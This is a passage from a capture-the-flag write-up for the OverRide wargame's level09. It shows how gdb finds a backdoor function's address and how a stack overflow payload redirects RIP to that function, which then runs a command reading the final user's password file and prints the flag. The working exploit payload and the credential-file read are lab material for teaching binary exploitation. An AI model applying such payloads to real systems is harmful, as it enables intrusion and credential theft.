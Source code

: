 ```bash

Quit anyway? (y or n) [answered Y; input not from terminal]
```

We can see the beginning of RIP being rewritten with the 'A' and a newline character in the second position.

Now, we can retrieve the address of `secret_backdoor()`:
```nasm
(gdb) b main
Breakpoint 1 at 0xaac
(gdb) r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) p secret_backdoor
$2 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

We found `0x000055555555488c`.

Note that it is necessary to run the executable to retrieve it, we cannot use objdump since PIE is enabled. However, 
there is no need for it because ASLR is not enabled on the system, the address is not randomized.

Let's test it with this payload:
```bash
level09@OverRide:~$ python -c 'print "run\n" + "A" * 40 + "\xff" + "A" * 286 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "echo salut"' | gdb ./level09 
...
(gdb) Starting program: /home/users/level09/level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
salut

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

A shell has been opened at the end, so we successfully redirected RIP to `secret_backdoor()` !

Now, let's test it outside of GDB and add `cat /home/users/end/.pass` as input for `system()`:
```bash
level09@OverRide:~$ python -c 'print "A" * 40 + "\xff" + "A" * 286 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "cat /home/users/end/.pass"' | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```

And there we have the last flag!

In the home directory of the `end` user, we find a file indicating:
```bash
end@OverRide:~$ cat end
GG !
```
